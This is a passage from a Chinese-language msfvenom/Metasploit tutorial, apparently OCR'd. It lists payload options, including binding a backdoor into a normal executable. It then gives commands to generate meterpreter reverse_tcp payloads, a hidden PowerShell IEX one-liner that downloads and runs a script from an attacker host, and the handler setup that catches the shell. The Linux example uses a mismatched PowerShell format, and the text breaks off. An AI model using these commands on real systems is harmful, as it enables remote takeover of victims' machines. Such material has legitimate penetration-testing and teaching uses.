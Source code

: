 >
>**windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe**
>
>## **6.  –o**
>
>文件输出。
>
>## **7.  –s**
>
>生成payload的最大长度，就是文件大小。
>
>## **8.  –b**
>
>避免使用的字符 例如：不使用 ‘0f’。
>
>## **9.  –i**
>
>编码次数。
>
>## **10.     –c**
>
>添加自己的shellcode。
>
>## **11.     –x | -k**
>
>捆绑。例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

## 用法示例：

>1. msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<本机ip地址> lport=<本机监听端口> -f psh-reflection  -o xx.ps1   //生成文件放在目标机目录下
>     //powershell执行脚本：powershell -windowstyle hidden -exec bypass IEX (New-Object  Net.WebClient).DownloadString('http://<yourip>/xxx.ps1');xxx.ps1
>2. use exploit/multi/handler
>3. set payload windows/x64/meterpreter/reverse_tcp
>4. show options
>5. set LHOST=XXX    RHOST=XXX
>6. run
>7. 目标主机执行木马文件



## 反向连接：

- linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```

- windows:
